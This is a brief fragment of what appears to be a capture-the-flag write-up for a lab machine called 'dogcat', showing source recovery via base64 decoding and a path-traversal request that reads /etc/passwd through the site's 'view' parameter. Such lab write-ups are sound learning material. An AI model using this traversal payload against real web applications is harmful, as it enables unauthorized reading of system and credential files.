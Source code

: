 # dogcat 

`export IP=10.10.225.186`

```
echo " 
PCFET0NUWVBFIEhUTUw+Cjxod...Pgo8L2JvZHk+Cgo8L2h0bWw+Cg==" | base64 -d > index.php
```

Found the ext can be customzie aftre checking index.php
`http://10.10.225.186/?view=dog/../../../../../etc/passwd&ext=`